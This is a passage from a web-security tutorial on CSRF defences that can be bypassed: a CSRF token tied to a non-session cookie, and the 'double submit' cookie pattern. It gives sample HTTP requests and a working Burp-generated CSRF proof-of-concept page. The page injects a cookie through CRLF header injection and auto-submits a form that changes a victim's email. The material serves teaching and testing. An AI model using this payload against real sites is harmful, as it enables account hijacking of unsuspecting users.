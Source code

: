 In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks, one for session handling and one for CSRF protection, which are not integrated together: 

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

This situation is harder to exploit but is still vulnerable. If the website contains any behavior that allows an attacker to set a cookie in a victim's browser, then an attack is possible.

Example of exploitation:

```html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
	<body>
		<script>
			history.pushState('', '', '/');
		</script>
		<form action="https://example.com/my-account/change-email" method="POST">
			<input type="hidden" name="email" value="test3&#64;test&#46;com" />
			<input type="hidden" name="csrf" value="cLM7o8nGIrotmaKIkRIcKxT3dLddqY3g" />
			<input type="submit" value="Submit request" />
		</form>
		<img src="https://example.com/?search=test%0d%0aSet-Cookie:+csrfKey=c7EQkv5GvRyeVkHyfScJpZ0SFvGKm5F7%3b%20SameSite=None" onerror="document.forms[0].submit();">

	</body>
</html>
```

> **Note**: It is very important to set the cookie attribute `SameSite` as `None` in order to work.

## CSRF token is simply duplicated in a cookie

In a further variation on the preceding vulnerability, some applications do not maintain any server-side record of tokens that have been issued, but instead duplicate each token within a cookie and a request parameter. When the subsequent request is validated, the application simply verifies that the token submitted in the request parameter matches the value submitted in the cookie. This is sometimes called the "double submit" defense against CSRF, and is advocated because it is simple to implement and avoids the need for any server-side state: 

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

